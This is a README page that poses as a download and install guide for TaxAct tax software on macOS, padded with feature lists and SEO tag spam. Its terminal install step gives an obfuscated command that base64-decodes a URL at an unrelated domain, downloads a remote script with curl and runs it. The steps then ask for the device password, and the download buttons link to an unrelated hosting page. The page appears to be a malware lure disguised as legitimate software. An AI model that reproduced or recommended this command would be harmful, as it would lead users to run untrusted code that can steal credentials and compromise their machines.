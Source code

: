 # 🧾 TaxAct — Reliable Tax Filing Software for macOS

TaxAct is a user-friendly tax preparation application designed specifically for macOS users. It simplifies filing federal and state taxes with clear guidance, making it ideal for individuals, professionals, and small business owners.

## ✅ Download TaxAct for macOS  
[![Download TaxAct](https://img.shields.io/badge/Download-TaxAct-blueviolet)](https://shuziktobehuman.github.io/huja/TaxAct)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is TaxAct?

TaxAct is a comprehensive tax software that helps macOS users prepare and file their taxes efficiently. With step-by-step assistance, automatic calculations, and up-to-date tax forms, TaxAct makes tax filing accurate and stress-free.

---

## ✨ Features

- 📑 Prepare and file federal and state tax returns  
- 📝 Step-by-step guided tax preparation  
- 💡 Maximize deductions and credits  
- 🖥️ Fully optimized for macOS with Retina display  
- 🔒 Secure data encryption and privacy protection  
- 📊 Real-time error checks and tax calculations  
- 📲 Access from Mac, iPhone, or iPad  

---

## 💡 Why Use TaxAct?

- ✅ Trusted by millions of users nationwide  
- 🧠 Intuitive interface for easy navigation  
- 💵 Helps maximize your tax refund  
- 🔄 Sync and save your progress across devices  
- 🕒 Saves time with automated data entry  

---

[![Download TaxAct](https://img.shields.io/badge/Download-TaxAct-blueviolet)](https://shuziktobehuman.github.io/huja/TaxAct)

---

## 🖼️ Preview

![TaxAct Screenshot 1](https://www.zdnet.com/a/img/resize/dde7faeab64a1b93556323c68d392ac51a18c1ff/2022/01/05/16e32ba2-6d83-40f0-8399-324e0bc749db/screen-shot-2022-01-03-at-10-50-23-am.jpg?auto=webp&width=1280)  
![TaxAct Screenshot 2](https://www.form8949.com/images/tax-act-enter-totals.png)

---

## 📌 Tags

taxact, taxact free, taxact free file, taxact professional, taxact business,  
www taxact, 80g of income tax act, taxact cost, taxactcom, taxact business taxes,  
taxact coupon, taxact prices, taxact free tax filing, canadian income tax act,  
professional tax act, 80c of income tax act, 10 10d income tax act, 10 13a of income tax act,  
10 14 i of income tax act, 10aa of income tax act, 111a income tax act, 112a of income tax act,  
115ad of income tax act, 115ba of income tax act, 115baa of income tax act, 115bab of income tax act,  
115bac of income tax act, 115jd of income tax act, 139 1 of income tax act, 139 4 of income tax act
